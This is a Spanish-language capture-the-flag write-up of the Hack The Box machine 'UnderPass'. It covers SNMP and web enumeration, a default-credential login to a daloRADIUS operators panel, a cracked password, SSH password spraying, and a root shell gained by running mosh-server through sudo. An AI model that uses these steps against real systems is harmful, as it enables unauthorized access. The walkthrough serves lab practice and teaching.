









# Resolución maquina UnderPass

**Autor:** PepeMaquina  
**Fecha:** 13 de enero de 2026
**Dificultad:** Easy  
**Sistema Operativo:** Linux  
**Tags:** Enumeratión, ssh, Mosh.

---
## Imagen de la Máquina

*Imagen: UnderPass.JPG*

## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.129.231.213 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80 10.129.231.213 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
A primera vista no se tiene algo fuera de lo común, pero como en todos los escaneos, por protocolo y buena recomendación siempre es bueno realizar una enumeración de puertos UDP.
~~~bash
┌──(kali㉿kali)-[~/htb/underpass/nmap]
└─$ sudo nmap -p- --open -sU --min-rate 8000 -n -Pn 10.129.231.213 -oG networked_udp
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-13 14:21 EST
Warning: 10.129.231.213 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.231.213
Host is up (0.20s latency).
Not shown: 65442 open|filtered udp ports (no-response), 92 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp
~~~
Se tiene el puerto SNMP abierto, por lo que siempre viene bien usar el famoso snmpbulkwalk para obtener información de procesos.
~~~bash
snmpbulkwalk -c public -v2c 10.129.231.213 .
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (46051) 0:07:40.51
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.6.3.16.2.2.1
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.49
iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.2.1.50
iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.13.3.1.3
iso.3.6.1.2.1.1.9.1.2.10 = OID: iso.3.6.1.2.1.92
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.1.9.1.4.1 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.2 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.3 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.4 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.5 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.6 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.7 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.8 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.9 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.10 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.25.1.1.0 = Timeticks: (47303) 0:07:53.03
iso.3.6.1.2.1.25.1.2.0 = Hex-STRING: 07 EA 01 0D 13 19 1B 00 2B 00 00 
iso.3.6.1.2.1.25.1.3.0 = INTEGER: 393216
iso.3.6.1.2.1.25.1.4.0 = STRING: "BOOT_IMAGE=/vmlinuz-5.15.0-126-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0
"
iso.3.6.1.2.1.25.1.5.0 = Gauge32: 0
iso.3.6.1.2.1.25.1.6.0 = Gauge32: 213
iso.3.6.1.2.1.25.1.7.0 = INTEGER: 0
iso.3.6.1.2.1.25.1.7.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
~~~
En el servicio SNMP la información es muy corta, algunos datos adicionales que se obtienen son un posible usuario "steve" y el nombre del dominio que es "underpass.htb".
~~~bash
┌──(kali㉿kali)-[~/htb/underpass]
└─$ cat /etc/hosts | grep '10.129.231.213'
10.129.231.213 underpass.htb
~~~

### Enumeración dentro de la pagina web
Al realizar la enumeración web primero se ve la pagina tal como esta.

Se ve una pagina en apache sin configurar, esto no dice gran cosa, por lo que se procede a realizar enumeración de subdominios.
~~~bash
┌──(kali㉿kali)-[~/htb/underpass/nmap]
└─$ wfuzz -u http://10.129.231.213 -H "Host:FUZZ.underpass.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hl 363
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.231.213/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                    
=====================================================================

000037212:   400        10 L     35 W       301 Ch      "*"                                                                                        

Total time: 0
Processed Requests: 39702
Filtered Requests: 39701
Requests/sec.: 0
~~~
Lastimosamente no se obtiene gran cosa, procediendo a realizar enumeración de subdirectorios.
~~~bash
┌──(kali㉿kali)-[~/htb/underpass/nmap]
└─$ feroxbuster -u http://underpass.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -d 0 -t 5 -o fuzz -k 
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://underpass.htb
 🚀  Threads               │ 5
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ fuzz
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ INFINITE
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       22l      105w     5952c http://underpass.htb/icons/ubuntu-logo.png
200      GET      363l      961w    10671c http://underpass.htb/
[#>------------------] - 14m    18589/220553  2d      found:2       errors:25     
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_underpass_htb-1768333349.state ...
[#>------------------] - 14m    18589/220553  2d      found:2       errors:25     
[#>------------------] - 14m    18576/220548  22/s    http://underpass.htb/ 
[--------------------] - 0s         0/220548  -       http://underpass.htb/icons/ubuntu-logo.png 
~~~
Por mala suerte tampoco se pudo obtener información extra con enumeración de subdirectorios, algo sospechosamente confuso al realizar una maquina easy.

Despues de pensar un tiempo, volviendo a revisar el contenido SNMP que se obtuvo.
~~~SNMP
...............
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
...............
~~~
Esto menciona sobre un server daloradius, por lo que revisando en internet este es una aplicación web avanzada que funciona como una interfaz gráfica de usuario (GUI) para administrar servidores RADIUS.
Esto tambien habla sobre una ruta para iniciar sesion.

Entonces primero, quiero confirmar que esta dirección no se encuentra en la lista de direcciones que utilizo.
~~~bash
┌──(kali㉿kali)-[~/htb/underpass]
└─$ cat /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | grep daloradius

~~~
Esto no muestra nada, asi que seguramente feroxbuster no la detecto porque no se encuentra en su dirección.
Buscando esto en la pagina web.

Esto entrega un Forbidden, esto es bueno porque indica que la ruta existe solo que no se tiene acceso a ella.
Por ende realizo una enumeración de subdirectorios con esa ruta especifica.
~~~bash
┌──(kali㉿kali)-[~/htb/underpass/nmap]
└─$ feroxbuster -u http://underpass.htb/daloradius -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -d 0 -t 5 -o fuzz -k 
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://underpass.htb/daloradius
 🚀  Threads               │ 5
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ fuzz
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ INFINITE
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      319c http://underpass.htb/daloradius => http://underpass.htb/daloradius/
301      GET        9l       28w      327c http://underpass.htb/daloradius/library => http://underpass.htb/daloradius/library/
301      GET        9l       28w      323c http://underpass.htb/daloradius/doc => http://underpass.htb/daloradius/doc/
301      GET        9l       28w      323c http://underpass.htb/daloradius/app => http://underpass.htb/daloradius/app/
301      GET        9l       28w      330c http://underpass.htb/daloradius/app/common => http://underpass.htb/daloradius/app/common/
301      GET        9l       28w      331c http://underpass.htb/daloradius/doc/install => http://underpass.htb/daloradius/doc/install/
301      GET        9l       28w      329c http://underpass.htb/daloradius/app/users => http://underpass.htb/daloradius/app/users/
301      GET        9l       28w      327c http://underpass.htb/daloradius/contrib => http://underpass.htb/daloradius/contrib/
301      GET        9l       28w      340c http://underpass.htb/daloradius/app/common/templates => http://underpass.htb/daloradius/app/common/templates/
301      GET        9l       28w      338c http://underpass.htb/daloradius/app/common/library => http://underpass.htb/daloradius/app/common/library/
301      GET        9l       28w      337c http://underpass.htb/daloradius/app/common/static => http://underpass.htb/daloradius/app/common/static/
301      GET        9l       28w      344c http://underpass.htb/daloradius/app/common/static/images => http://underpass.htb/daloradius/app/common/static/images/
301      GET        9l       28w      337c http://underpass.htb/daloradius/app/users/library => http://underpass.htb/daloradius/app/users/library/
200      GET      412l     3898w    24703c http://underpass.htb/daloradius/ChangeLog
301      GET        9l       28w      336c http://underpass.htb/daloradius/app/users/static => http://underpass.htb/daloradius/app/users/static/
301      GET        9l       28w      335c http://underpass.htb/daloradius/contrib/scripts => http://underpass.htb/daloradius/contrib/scripts/
301      GET        9l       28w      343c http://underpass.htb/daloradius/app/users/static/images => http://underpass.htb/daloradius/app/users/static/images/
301      GET        9l       28w      339c http://underpass.htb/daloradius/app/common/includes => http://underpass.htb/daloradius/app/common/includes/
301      GET        9l       28w      325c http://underpass.htb/daloradius/setup => http://underpass.htb/daloradius/setup/
301      GET        9l       28w      341c http://underpass.htb/daloradius/app/common/static/css => http://underpass.htb/daloradius/app/common/static/css/
301      GET        9l       28w      347c http://underpass.htb/daloradius/app/common/static/css/icons => http://underpass.htb/daloradius/app/common/static/
~~~
En este punto encuentro una gran cantidad de subdirectorios, pero la mayoria me redirige a "Forbidden", asi que volviendo a internet este menciona que deberia de existir un inicio de sesion que no encuentro, pero menciona que puede haber dos direcciones para iniciar sesion, para operadores y usuarios normales.

Buscando la dirección de usuarios en el navegador.

Al intentar iniciar sesión esto no es posible de ninguna forma, ni con credenciales por defecto, pero recordando existe un usuario "steve" que se encontro en SNMP, mi ultima idea seria realizar fuerza bruta con ese usuario.

Pero revisando la salida de feroxbuster, este me muestra un usuario "operators" que seguramente tambien tiene un inicio de sesion.
~~~bash
........................
301      GET        9l       28w      353c http://underpass.htb/daloradius/app/users/notifications/templates => http://underpass.htb/daloradius/app/users/notifications/templates/
301      GET        9l       28w      355c http://underpass.htb/daloradius/app/users/include/menu/sidebar/acct => http://underpass.htb/daloradius/app/users/include/menu/sidebar/acct/
301      GET        9l       28w      358c http://underpass.htb/daloradius/app/operators/include/menu/sidebar/gis => http://underpass.htb/daloradius/app/operators/include/menu/sidebar/gis/
301      GET        9l       28w      359c http://underpass.htb/daloradius/app/operators/include/menu/sidebar/acct => http://underpass.htb/daloradius/app/operators/include/menu/sidebar/acct/
........................
~~~
Entrando en la direccion operators para iniciar sesion se puede ver que esta si resulta efectiva.

Esto tambien tiene un inicio de sesion, pero tambien muestra una version, antes que nada intentare ingresar con credenciales predeterminadas.

Probando las credenciales "administrator/radius" si se pudo obtener acceso al dashboard, a primera vista salta una posible lista de usuarios, asi que intento ver que puedo obtener.

Se puede ver un usuario y una posible contraseña, asi que pasando el hash en crackstation se tiene la contraseña real.
Antes de intentar buscar alguna vulnerabilidad para esta pagina, se realiza un rociado de contraseñas por ssh.
~~~bash
┌──(kali㉿kali)-[~/htb/underpass]
└─$ sudo netexec ssh 10.129.231.213 -u users -p pass --continue-on-success
[sudo] password for kali: 
SSH         10.129.231.213  22     10.129.231.213   [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.10
SSH         10.129.231.213  22     10.129.231.213   [-] steve:underwaterfriends
SSH         10.129.231.213  22     10.129.231.213   [+] svcMosh:underwaterfriends  Linux - Shell access!
~~~
Se puede ver que si surge efectivo encontrando credenciales validas.

***NOTA: Cabe recalcar que esto es linux y normalmente si importan las mayusculas y minusculas, asi que debe escribir al usuario tal y como lo encuentra***

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con acceso al servidor con credenciales ssh, solo queda buscar la user flag.
~~~bash
──(kali㉿kali)-[~/htb/underpass]
└─$ ssh svcMosh@10.129.231.213                                            
svcMosh@10.129.231.213's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64) '

Last login: Sat Jan 11 13:27:33 2025 from 10.10.14.62
svcMosh@underpass:~$ cat user.txt
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
Al revisar los permisos SUDO se encuentra un binario.
~~~bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
~~~
Al buscar información en internet, se ve que es un binario para terminales en equipos mobiles, esto ya da a lugar en poder abrir una terminal como root.
Buscando alguna forma de escalar privilegios se encontro una publicacion para aprovechar este concepto (https://www.hackingdream.net/2020/03/linux-privilege-escalation-techniques.html).
Esto habla de generar un token como servidor y como cliente ya se podria conectar a una terminal con dicho token y por ende entrar a una sesion como root.
Primero creando el token
~~~bash
svcMosh@underpass:~$ sudo /usr/bin/mosh-server new -p 60013

MOSH CONNECT 60013 YTgNdfwCgABUlE3qeioLSw

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 1633]
~~~
Para luego conectarnos con esa key.
~~~bash
svcMosh@underpass:~$ MOSH_KEY=YTgNdfwCgABUlE3qeioLSw mosh-client 127.0.0.1 60013
~~~
Esto automáticamente ejecutaría una shell como root.
~~~bash
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed Jan 14 08:32:41 PM UTC 2026

  System load:  0.0               Processes:             229
  Usage of /:   49.5% of 6.56GB   Users logged in:       0
  Memory usage: 11%               IPv4 address for eth0: 10.129.231.213
  Swap usage:   0%

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

root@underpass:~# cat /root/root.txt 
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Ahora que ya se tiene acceso a root, solo es cosa de leer la root flag.
~~~bash
root@underpass:~# cat /root/root.txt 
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

